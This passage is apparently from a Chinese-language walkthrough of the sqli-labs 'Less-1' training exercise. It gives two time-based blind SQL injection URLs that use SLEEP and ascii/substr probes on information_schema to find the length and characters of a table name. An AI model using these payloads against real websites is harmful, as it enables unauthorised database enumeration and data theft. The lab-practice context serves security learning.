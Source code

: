 - 获取第四张表的``表名长度``-->5

```sql
http://192.168.77.131/master/Less-1/?id=1' AND IF((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 3,1) = 5, SLEEP(5), 0) --+
```

- 获取第四张表的``表名``(构造payload爆破)

```sql
http://192.168.77.131/master/Less-1/?id=1'and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),1,1))=101,sleep(5),0) --+
```

![image-20240821125906232](assets/image-20240821125906232.png)

![image-20240821130001706](assets/image-20240821130001706.png)
